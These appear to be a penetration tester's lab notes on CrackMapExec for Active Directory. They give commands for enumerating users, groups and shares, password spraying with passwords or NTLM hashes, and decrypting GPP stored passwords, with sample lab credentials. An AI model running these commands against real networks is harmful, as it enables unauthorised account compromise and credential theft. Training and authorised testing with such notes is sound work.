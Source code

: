 -- -
Can be used outside of an AD context but generally used in an AD context. [wiki]
#### Enumerating AD Password Policy
Requires you have valid credentials first.
```bash
crackmapexec smb <ip> -u <user> -p <passwd> --pass-pol
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```

^016942

#### Enumerating valid domain users w/o credentials
```bash
crackmapexec smb <dc ip> --users
crackmapexec smb 172.16.5.5 --users
```

^99029f

#### Password Spray
###### AD Domain Password spray
Password spray domain accounts
```bash
# Use grep to filter out only successful attempts
# generic domain spray
sudo crackmapexec smb <dc ip> -u <userlist> -p <passwd> | grep +

# specific domain spray
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

# verify found credentials example:
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```

^4d0ec2

###### Local account password spray
Password spray local accounts on the systems in the CIDR range. Local accounts **not** domain accounts. 
```bash
# Note: This method is LOUD, so don't use if you need to be evasive
# generic w/ hash
sudo crackmapexec smb --local-auth <cidr range> -u <username> -H <passwd hash> | grep +

#generic w/ password
sudo crackmapexec smb --local-auth <cidr range> -u <username> -p <passwd> | grep +

# specific w/ hash
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

^d499fd

^cc2b19
###### Domain user enumeration w/ creds
```bash
sudo crackmapexe smb <dc ip> -u <user> -p <password> --users
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
```

^617bfd

###### Domain group enumeration w/ creds
```bash
sudo crackmapexec smb <dc ip> -u <user> -p <password> --groups
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
```

^3735b8

###### Logged-on Users enumeration w/ creds
```bash
# See who is logged onto a target host in the domain
sudo crackmapexec smb <target ip> -u <user> -p <passwd> --loggedon-users
sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
```

^1fbea2

###### Available shares, and permissions on shares w/ creds
```bash
# enumerate available shares on target host
# also shows the level of permissions you have for each share
sudo crackmapexec smb <target ip> -u <user> -p <passwd> --shares
```

^2f2d3b

###### Spider shares for content
```bash
# Enummerates the files on a specified share if user has Read access
sudo crackmapexec smb <target ip> -u <user> -p <passwd> -M spider_plus --share '<share name>'
```

^c5e901

##### Retrieve and decrypt gpp password
```bash
# this will find the cpassword in the gpp registry XML then decrypt it for you
crackmapexec smb <dc ip> -u <user> -p <passwd> -M gpp_autologin
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```

^1d481a
